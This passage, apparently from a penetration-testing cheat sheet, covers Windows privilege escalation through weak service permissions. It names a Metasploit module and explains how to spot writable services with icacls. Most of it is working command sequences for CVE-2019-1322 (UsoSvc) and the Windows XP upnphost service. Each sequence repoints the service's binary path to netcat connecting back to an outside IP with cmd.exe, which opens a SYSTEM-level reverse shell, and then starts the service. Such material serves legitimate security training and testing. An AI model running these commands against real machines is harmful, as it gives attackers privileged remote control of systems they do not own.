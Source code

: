 Alternatively you can use the Metasploit exploit : `exploit/windows/local/service_permissions`

Note to check file permissions you can use `cacls` and `icacls`
> icacls (Windows Vista +)    
> cacls (Windows XP)

You are looking for `BUILTIN\Users:(F)`(Full access), `BUILTIN\Users:(M)`(Modify access) or  `BUILTIN\Users:(W)`(Write-only access) in the output.

### Example with Windows 10 - CVE-2019-1322 UsoSvc

Prerequisite: Service account

```powershell
PS C:\Windows\system32> sc.exe stop UsoSvc
PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd /C C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem

PS C:\Windows\system32> sc.exe start UsoSvc
```

### Example with Windows XP SP1 - upnphost

```powershell
# NOTE: spaces are mandatory for this exploit to work !
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```

If it fails because of a missing dependency, try the following commands.

```powershell
sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost

sc config upnphost depend=""
```
